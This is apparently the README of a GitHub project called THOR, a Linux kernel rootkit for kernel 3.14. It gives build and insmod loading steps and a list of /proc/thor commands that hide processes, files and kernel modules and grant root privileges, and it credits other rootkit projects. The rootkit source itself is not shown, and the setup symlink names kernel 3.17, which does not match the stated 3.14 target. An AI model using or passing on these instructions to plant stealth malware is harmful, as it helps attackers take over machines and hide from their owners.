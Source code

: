 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor (hides process PID)
       echo up PID    > /proc/thor (unhides process PID)
       echo upa       > /proc/thor (unhide all PIDs)
       echo hf FILE   > /proc/thor (hide file FILE)
       echo uf FILE   > /proc/thor (unhide file FILE)
       echo ufa       > /proc/thor (unhide all files)
       echo hm MODULE > /proc/thor (hide module)
       echo um MODULE > /proc/thor (unhide module)
       echo uma       > /proc/thor (unhide all modules)
       echo root      > /proc/thor (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [XieRan](https://github.com/nareix/tls-example)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
